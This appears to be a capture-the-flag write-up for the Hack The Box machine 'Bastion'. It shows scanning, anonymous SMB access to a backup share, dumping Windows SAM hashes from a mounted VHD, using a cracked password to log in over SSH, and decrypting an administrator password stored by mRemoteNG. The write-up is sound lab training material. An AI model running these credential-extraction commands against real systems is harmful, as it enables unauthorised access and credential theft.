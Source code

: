 ```yaml
---
title: Bastion Write up
date: 2024-01-24 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastion 10.10.10.134</span></div>
<br> 


   
    Nmap scan report for 10.10.10.134
    Host is up (0.069s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT    STATE SERVICE      VERSION
    22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    .
    .
    .
    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-06-13T18:00:17
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:00:19+02:00
    |_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s



ALL ports scan

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.134</span></div>
<br>

  
    Nmap scan report for 10.10.10.134
    Host is up (0.11s latency).
    Not shown: 65522 closed tcp ports (conn-refused)
    PORT      STATE SERVICE      VERSION
    22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
    | smb2-time: 
    |   date: 2023-06-13T18:02:18
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:02:16+02:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)


### SMB

We will start by listing shares:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 10.10.10.134</span></div>
<br>   

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(1).png)

We can see that there is an interesting share named "backups". Let's access it.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient //10.10.10.134/Backups -U "user"%" "</span></div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(2).png)

Download all files using "mget *".

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(3).png)

Seems like we have to mount it locally.

## Initial Foothold


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ mount -t cifs //10.10.10.134/backups /mnt -o user=user,password=</span></div>
<br>

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(4).png)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note : to install guestmount use the command: sudo apt install libguestfs-tools</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(5).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/</span></div>
<br> 

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(6).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># cd /mnt2/Windows/System32/config</span></div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(7).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># samdump2 ./SYSTEM ./SAM</span></div>
<br>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(8).png)





### Crack the hash

Let's crack the hash using : [https://crackstation.net/](https://crackstation.net/)

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(9).png)


>L4mpje:Bureaulampje

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ssh L4mpje@10.10.10.134</span></div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(10).png)

## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG</span></div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">dir</span></div>
<br>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(11).png)

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">type confCons.xml</span></div>
<br> 

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(12).png)

We found the administrator's hash

To crack it we need to use mremoteng_decrypt : https://github.com/haseebT/mRemoteNG-Decrypt


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==</span></div>
<br>


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(13).png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>ssh administrator@10.10.10.134</span></div>
<br> 

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(14).png)